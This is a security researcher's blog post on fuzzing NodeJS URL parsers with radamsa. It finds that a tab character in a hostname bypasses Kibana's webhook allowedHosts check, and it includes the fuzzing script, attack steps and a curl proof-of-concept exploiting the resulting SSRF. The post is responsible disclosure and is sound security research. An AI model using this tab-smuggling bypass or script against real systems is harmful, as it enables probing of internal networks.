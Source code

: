 # SSRF: Bypassing hostname restrictions with fuzzing | $BLOG_TITLE
FUZZING, SECURITY

February 26, 2021

When the same data is parsed twice by different parsers, [some interesting security bugs](https://about.gitlab.com/blog/2020/03/30/how-to-exploit-parser-differentials/) can be introduced. In this post I will show how I used fuzzing to find a parser diffential issue in Kibana’s alerting and actions feature and how I leveraged [radamsa](https://gitlab.com/akihe/radamsa/) to fuzz NodeJS’ URL parsers.

Kibana alerting and actions
---------------------------

Kibana has an [alerting](https://www.elastic.co/what-is/kibana-alerting) feature that allows users to trigger an action when certain conditions are met. There’s a variety of actions that can be chosen like sending an email, opening a ticket in Jira or sending a request to a webhook. To make sure this doesn’t become SSRF as a feature, there’s an [`xpack.actions.allowedHosts` setting](https://www.elastic.co/guide/en/kibana/current/alert-action-settings-kb.html#action-settings) where users can configure a list of hosts that are allowed as webhook targets.

Parser differential
-------------------

Parsing URLs consistently is [notoriously difficult](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) and sometimes the inconsistencies are there [on purpose](https://hackerone.com/reports/704621). Because of this, I was curious to see how the webhook target was validated against the `xpack.actions.allowedHosts` setting and how the URL was parsed before sending the request to the webhook. Is it the same parser? If not, are there any URLs that can appear fine to the hostname validation but target a completely different URL when sending the HTTP request?

After digging into the webhook code, I coud identify that hostname validation happens in [`isHostnameAllowedInUri`](https://github.com/elastic/kibana/blob/0a7462dc4acb79bc28873b4ce82a510aa624397c/x-pack/plugins/actions/server/actions_config.ts#L68-L69). The important part to notice is that the hostname is extracted from the webhook’s URL by doing `new URL(userInputUrl).hostname`.

```
function isHostnameAllowedInUri(config: ActionsConfigType, uri: string): boolean {
  return pipe(
    tryCatch(() => new URL(uri)),
    map((url) => url.hostname),
    mapNullable((hostname) => isAllowed(config, hostname)),
    getOrElse<boolean>(() => false)
  );
} 
```

On the other hand, the library that sends the HTTP request uses `require('url').parse(userInputUrl).hostname` to [parse the hostname](https://github.com/axios/axios/blob/59ab559386273a185be18857a12ab0305b753e50/lib/adapters/http.js#L91).

```
var url = require('url');

// ...

// Parse url
var fullPath = buildFullPath(config.baseURL, config.url);
var parsed = url.parse(fullPath);

// ...

options.hostname = parsed.hostname; 
```

After reading some documentation, I could validate that those were effectively two different parsers and not just two ways of doing the same thing. Very interesting! Now I’m looking for a URL that is accepted by `isHostnameAllowedInUri` but results in an HTTP request to a different host. In other words, I’m looking for X where `new URL(X).hostname !== require('url').parse(X).hostname` and this is where the fuzzing comes in.

Fuzzing for SSRF
----------------

When you’re looking to generate test strings without going all in with coverage guided fuzzing like AFL or libFuzzer, [radamsa](https://gitlab.com/akihe/radamsa/) is the perfect solution.

> Radamsa is a test case generator for robustness testing, a.k.a. a fuzzer. It is typically used to test how well a program can withstand malformed and potentially malicious inputs. It works by reading sample files of valid data and generating interestringly different outputs from them.

The plan was the following:

1.  Feed a normal URL to radamsa as a starting point
2.  Parse radamsa’s output using both parsers
3.  If both parsed hostnames are different and valid, save that URL

Here’s the code used to do the fuzzing and validate the results:

```
const child_process = require('child_process');
const radamsa = child_process.spawn('./radamsa/bin/radamsa', ['-n', 'inf']);
radamsa.stdin.setEncoding('utf8');
radamsa.stdin.write("user:pass@domain.com:23/?ab=12#")
radamsa.stdin.end()

radamsa.stdout.on('data', function (input) {
    input = 'http://' + input

    // Resulting host names need to be valid for this to be useful
    function isInvalid(host) {
        return host === null || host === '' || !/^[a-zA-Z0-9.-]+$/.test(host1);
    }

    let host1;
    try {
        host1 = new URL(input).hostname;
    } catch (e) {
        return; // Both hosts need to parse
    }

    if (isInvalid(host1)) return;
    if (/^([0-9.]+)$/.test(host1)) return; // host1 should be a domain, not an IP

    let host2;
    try {
        host2 = require('url').parse(input).hostname;
    } catch (e) {
        return; // Both hosts need to parse
    }

    if (isInvalid(host2)) return;
    if (host1 === host2) return;

    console.log(
        `${encodeURIComponent(input)} was parsed as ${host1} with URL constructor and ${host2} with url.parse.`
    );
}); 
```

There are some issues with that code and I think the stdin writer might have trouble handling null bytes, but nevertheless after a little while this popped up (the output was URL-encoded to catch non-printable characters):

```
http%3A%2F%2Fuser%3Apass%40domain.com%094294967298%2F%3Fab%3D- was parsed as domain.com4294967298 with URL constructor and domain.com with url.parse. 
```

With the original string containing the hostname `domain.com<TAB>4294967298`, one parser stripped the tab character and the other truncated the hostname where the tab was inserted. This is very interesting and can definitely be abused: imagine a webhook that requires the target to be `yourdomain.com`, but when you enter `yourdomain.co<TAB>m` the filter thinks it’s valid but the request is actually sent to `yourdomain.co`. All the attacker has to do is register that domain and point it to `127.0.0.1` or any other internal target and it makes for a fun SSRF.

The attack
----------

This is exactly what could be achived in Kibana.

1.  Assume the `xpack.actions.allowedHosts` setting requires webhooks to target `yourdomain.com`
2.  As the attacker, register `yourdomain.co`
3.  Add a DNS record pointing to `127.0.0.1` or any other internal IP
4.  Create a webhook action
5.  Use the API to send a test message to the webhook and specify the url `yourdomain.co<TAB>m`
6.  Observe the response, in this case there were 3 different responses allowing to differentiate a live host, a live host that responds to HTTP requests and a dead host

Here’s the script used to demonstrate the attack.

```
kibana_url="https://localhost:5601/"
creds="elastic:changeme"

# The \t is important
ssrf_target="http://yourdomain.co\tm"

# Create Webhook Action
connector_id=$(curl -sk -u "$creds" --url "$kibana_url/api/actions/action" -X POST -H 'Content-Type: application/json' -H 'kbn-xsrf: true' \
    -d '{"actionTypeId":".webhook","config":{"method":"post","hasAuth":false,"url":"'$ssrf_target'","headers":{"content-type":"application/json"}},"secrets":{"user":null,"password":null},"name":"'$(date +%s)'"}' |
    jq -r .id)

# Send request to target using the test function
curl -sk -u "$creds" --url "$kibana_url/api/actions/action/$connector_id/_execute" -X POST -H 'Content-Type: application/json' -H 'kbn-xsrf: true' \
    -d '{"params":{"body":"{\"arbitrary_payload_here\":true}"}}'

# Server should have received the request 
```

Impact
------

Unfortunately, the resulting URL with the bypass is a bit mangled as we can see from this output taken from the NodeJS console:

```
> require('url').parse("htts://example.co\x09m/path")
Url {
  protocol: 'htts:',
  slashes: true,
  auth: null,
  host: 'example.co',
  port: null,
  hostname: 'example.co',
  hash: null,
  search: null,
  query: null,
  pathname: '%09m/path',
  path: '%09m/path',
  href: 'htts://example.co/%09m/path' } 
```

The part that is truncated from the hostname is just pushed to the path and make it hard to craft any request that can achieve more than the basic internal network/port scan. However, if the parsers’ roles had been inverted and `new URI` had been used for the request instead I would have had a clean path and much more potential for exploitation with a fully controlled path and `POST` body. Certainly this situation comes up _somewhere_, let me know if you come across something like that and are able to exploit it!

Conclusion
----------

A few things to take away from this:

*   When reviewing code, any time data is parsed for valiation make sure it’s parsed the same way when it’s being used
*   Fuzzing with radamsa is simple and quick to setup, a great addition to any bug hunter’s toolbet
*   If you’re doing blackbox testing and facing hostname validations in a NodeJS envioronment, try to add some tabs and see where that leads

Thanks for reading!

(This was disclosed with permission)